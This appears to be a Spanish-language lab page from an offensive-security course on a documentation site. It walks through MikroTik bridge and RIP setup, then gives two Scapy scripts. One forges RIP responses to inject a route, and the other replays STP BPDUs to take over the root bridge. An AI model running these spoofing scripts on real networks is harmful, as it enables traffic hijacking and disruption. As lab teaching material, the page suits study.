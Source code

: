 ```yaml
---
theme: "just-the-docs"
title: "Explotacion Capa 2 y 3"
layout: default
nav_order: 19
parent: "Seguridad Ofensiva"
---
```

# Explotacion Capa 2 y 3
## Configuracion Mikrotik
Opcionalmente si quieres borrar el mikrotik se puede usar el siguiente comando:
```
system reset-configuration
```
Para revisar las IPs en Mikrotik
```
ip add print
```
Configuracion de interface bridge, asignacion de IP y configuracion de RIP
```
interface bridge add name=bridge1
interface bridge port add bridge=bridge1 interface=ether1
ip dhcp-client add disabled=no interface=bridge1
routing rip interface add send=v1-2
routing rip network add network=192.168.85.0/24
```
Revision de la tabla de rutas
```
ip route print
```
## Creacion de script para inyeccion de rutas con RIP
```
nano rip.py
```
```
from scapy.all import *
PDU = Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type="IPv4")
PDU /= IP(tos=192,ttl=2,proto=17,src="192.168.85.100",dst="224.0.0.9")
PDU /= UDP(sport=520, dport=520)
PDU /= RIP(cmd=2,version=2)
PDU /= RIPEntry(AF=2, RouteTag=1354, addr="2.0.0.0", mask="255.0.0.0", nextHop="0.0.0.0", metric=1)
sendp(PDU)
```
## Creacion de script para la manipulacion de STP
```
nano stp.py
```
```
from scapy.all import *
PDU = sniff(filter="ether dst 01:80:c2:00:00:00",count=1)
PDU[0].src="00:00:00:00:00:01”
PDU[0].rootid=0
PDU[0].rootmac="00:00:00:00:00:01”
PDU[0].bridgeid=0
PDU[0].bridgemac="00:00:00:00:00:01”
for i in range (0, 50):
    sendp(PDU[0])
    time.sleep(2)
```
```
interface bridge monitor bridge1
```
